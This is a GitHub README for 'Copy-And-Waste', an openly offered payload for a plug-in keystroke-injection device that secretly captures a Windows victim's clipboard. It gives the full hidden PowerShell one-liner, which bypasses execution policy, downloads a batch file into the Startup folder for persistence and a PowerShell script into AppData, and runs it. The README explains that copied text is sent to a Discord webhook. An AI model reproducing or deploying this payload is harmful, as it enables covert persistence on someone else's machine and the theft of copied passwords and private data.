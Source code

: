<img src="https://github.com/atomiczsec/My-Payloads/blob/main/Assets/caw.png" width="200">

<h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome+to+;Copy+And+Waste!+😈&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Copy-And-Waste

A payload to exfiltrate clipboard contents

## Description

This payload uses iwr to download 2 files 
* I.bat
* c.ps1

**I.bat** is downloaded to the startup folder to maintain persistance and execute c.ps1 on reboot/startup

**c.ps1** will sit in AppData\Roaming folder, waiting for a Ctrl + C or Ctrl + X click 

Then the contents will then be sent to the discord webhook for viewing pleasure

For killing the script press both Ctrl buttons at the same time [It will resume at reboot]


## Getting Started

### Dependencies

* Pastebin or other file sharing service, Discord webhook or other webhook service
* Windows 10,11
* [Here](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks) is a tutorial on how to use Discord webhooks 

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Device will download both files and place them in proper directories to then run the script
```
powershell -w h -NoP -NonI -Ep Bypass "echo (iwr PASTEBIN LINK FOR BAT).content > "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\l.bat";echo (iwr PASTEBIN LINK FOR PS1).content > "$env:APPDATA\c.ps1";powershell "$env:APPDATA\c.ps1""
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here:

[atomiczsec](https://github.com/atomiczsec) &
[I-Am-Jakoby](https://github.com/I-Am-Jakoby)

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://www.youtube.com/channel/UC-7iJTFN8-CsTTuXd3Va6mA?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/atomiczsec">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>I-Am-Jakoby's Discord
    </td>
  </tr>
</table>
</div>

<p align="right">(<a href="#top">back to top</a>)</p>




<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [I-Am-Jakoby](https://github.com/I-Am-Jakoby)

<p align="right">(<a href="#top">back to top</a>)</p>
